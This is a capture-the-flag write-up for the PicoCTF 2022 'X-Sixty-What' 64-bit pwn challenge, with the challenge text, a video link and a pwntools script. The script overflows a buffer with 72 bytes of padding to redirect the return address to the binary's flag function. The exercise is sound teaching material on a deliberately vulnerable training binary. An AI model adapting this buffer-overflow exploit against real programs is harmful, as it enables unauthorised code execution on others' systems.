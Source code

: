 ```yaml
---
name: X-Sixty-What (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for X-Sixty-What (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# X-Sixty-What

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=2358 "Pico CTF 2022: X-Sixty-What")

## Description

> Most problems before this are 32-bit x86. Now we’ll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this program.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 72

payload = flat(
    b'A' * padding,
    0x40123b
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Receive the flag
io.interactive()
```
{% endcode %}
